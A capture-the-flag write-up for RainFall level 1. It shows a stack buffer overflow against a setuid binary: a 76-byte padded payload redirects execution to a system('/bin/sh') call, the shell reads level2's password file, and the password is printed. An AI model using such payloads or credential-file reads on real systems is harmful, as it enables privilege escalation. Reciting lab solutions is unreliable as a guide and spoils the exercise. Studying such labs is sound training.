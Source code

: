 # Level 1

## Vulnerability

Buffer overflow exploit

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. 
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.
```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
level1@RainFall:~$ perl -E "print '*' x 76" | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here.
The next step is to look for where we can regain control

```objdump``` will give us a deeper look at the assembly instructions in this binary file. 
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$  objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a run command and ```system()``` call that we can exploit. 
If we run system("/bin/sh"), it will launch a shell that will run with the same priveleges as the calling program. 
https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands

```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
level1@RainFall:~$ (perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' ; cat -) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```!

## Recreate Exploited Binary

As user level2, create source_level0.c, then compile in /tmp/.
```
level2@RainFall: cd /tmp
level2@RainFall: gcc source.c -fno-stack-protector -o source_level1
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall: chmod u+s source_level1
level2@RainFall: chmod +wx ~; mv source_level1 ~
```
Exit back to user level1, then run the binary.
```
level2@RainFall:~$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | /home/user/level1/source_level1
```
